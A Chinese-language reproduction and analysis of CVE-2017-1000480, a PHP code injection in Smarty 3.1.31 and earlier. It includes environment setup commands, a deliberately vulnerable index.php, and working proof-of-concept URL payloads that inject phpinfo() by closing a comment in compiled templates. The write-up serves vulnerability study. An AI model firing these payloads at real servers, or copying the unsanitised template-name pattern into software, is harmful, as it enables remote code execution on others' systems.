 （CVE-2017-1000480）Smarty\<=3.1.31 命令执行RCE
===============================================

一、漏洞简介
------------

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty
3容易受到PHP代码注入的攻击。

二、漏洞影响
------------

Smarty\<=3.1.31、3.1.32-dev

三、复现过程
------------

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

    ➜  html mkdir smarty
    ➜  html cd smarty
    ➜  smarty mkdir cache compile templates
    ➜  smarty composer require smarty/smarty -v
    ➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
    ➜  smarty composer update
    ➜  smarty sudo chmod -R 777 .

/var/www/html/smarty/index.php 如下：

    <?php
    require './vendor/autoload.php';

    class Smarty_Resource_Widget extends Smarty_Resource_Custom
    {
        protected function fetch($name, &$source, &$mtime)
        {
            $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
            $source = $template;
            $mtime = time();
            return 'mochazz';
        }
    }

    $smarty = new Smarty();
    $smarty->setCacheDir('cache');
    $smarty->setCompileDir('compile');
    $smarty->setTemplateDir('templates');

    $my_security_policy = new Smarty_Security($smarty);
    $smarty->enableSecurity($my_security_policy);
    $smarty->registerResource('username', new Smarty_Resource_Widget());
    $smarty->display('username:'.$_GET['mochazz']);

    ?>

### 2、漏洞分析

具体攻击 payload 如下：

    http://0-sec.org/index.php?mochazz=*/phpinfo();/*

![](./.resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId26.jpg)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在
render
方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![](./.resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId27.jpg)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的
compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

    # 代码：$smarty->display('username:'.$_GET['mochazz']);

    # payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
    4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

    # payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
    1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php

这是因为 compile 文件名中，有一部分由 basename(\$source-\>name)
决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload
时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是
Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows
平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile
文件中的内容包含模板路径（即下图最后一行代码
\$\_template-\>source-\>filepath ），这个模板路径就是我们传入 display
方法的参数。虽然该参数被注释包裹，但是我们可以用 \*/ 闭合。写入 compile
文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

image
